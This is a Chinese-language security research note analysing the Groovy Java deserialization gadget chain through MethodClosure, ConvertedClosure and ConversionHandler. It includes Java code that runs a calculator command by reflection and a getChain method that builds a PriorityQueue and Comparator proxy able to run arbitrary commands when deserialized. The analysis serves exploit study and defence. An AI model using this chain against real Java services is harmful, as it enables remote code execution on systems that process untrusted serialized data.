









# Groovy

## 0x01 MethodClosure

`org.codehaus.groovy.runtime.MethodClosure` 用于表示对对象方法的闭包，闭包是 Groovy 的一种代码块，它可以被保存并在之后调用，类似于一个函数或方法。



### doCall()

`doCall()` 方法用于执行闭包所代表的方法调用，并且可以传递参数，这个方法并不是被显式调用的，可以通过反射来测试。

```java
public static void main(String[] args) throws Exception{
    MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");

    Method doCall = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
    doCall.setAccessible(true);
    doCall.invoke(methodClosure, "open -a Calculator.app");
}
```

## 0x02 Closure

再看一个例子

```java
public static void main(String[] args) throws Exception{
    MethodClosure methodClosure = new MethodClosure("open -a Calculator.app", "execute");
    methodClosure.call();
}
```

`MethodClosure` 是对抽象类 `groovy.lang.Closure` 的继承，在 `Closure.call()` 中会尝试使用闭包的元类 `MetaClass` 来调用 `doCall` 方法来执行闭包中的代码。



因为是通过 `MethodClosure` 调用的，所以通过 `mc.getMethod()` 获取到 `execute` 方法



之后会调用到 `org.codehaus.groovy.runtime.ProcessGroovyMethods.execute()` 执行命令



## 0x03 ConvertedClosure

那么要如何实现反序列化的利用呢，就需要介绍 `org.codehaus.groovy.runtime.ConvertedClosure` 这个类了，构造方法接收 `Closure` ，用于将任何闭包适配到 Java 接口。这个类集成了 `ConversionHandler`，而 `ConversionHandler` 同时也实现了动态代理。



在 `org.codehaus.groovy.runtime.ConversionHandler.invoke()` 方法中，首先 `checkMethod` 方法会判断代理 Method 的类 Class 对象是否为 `Object` ，符合条件会调用 `invokeCustom()` 方法。





 `invokeCustom()` 方法中判断代理方法名与 `methodName` 属性值定义的是否相同，相同时就会调用 `MethodClosure.call()` 方法实现最终的利用了。



## 0x04 其他 kick-off

ysoserial 中的 Groovy1 使用 `AnnotationInvocationHandler` 来构建，当然我们可以用和之前分析 Beanshell、Jython 一样的 `PriorityQueue` 来触发，只不过构建 queue 时要注意 K-V 都设置为 `null` ，有参情况下通过 `MetaClassHelper` 获取不到 `MethodClosure` 的。

其实也是可以设置参数的，不过需要和 `MethodClosure` 的构造方法参数相同，传不了 `Java.lang.Object` ，所以干脆直接给个 null 去获取默认。具体获取的代码在 `groovy.lang.MetaClassImpl.chooseMethodInternal()` 方法中，如果有人能看到这感兴趣可以看一下，篇幅有限就不铺开了。



```java
public Object getChain(String command) throws Exception {
    final ConvertedClosure closure = new ConvertedClosure(new MethodClosure(command, "execute"), "compare");

    // Create Comparator Proxy
    Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, closure);

    // Prepare Trigger Gadget (will call Comparator.compare() during deserialization)
    final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
    Reflections.setFieldValue(priorityQueue, "queue", new Object[]{null, null});
    Reflections.setFieldValue(priorityQueue, "size", 2);

    return priorityQueue;
}
```

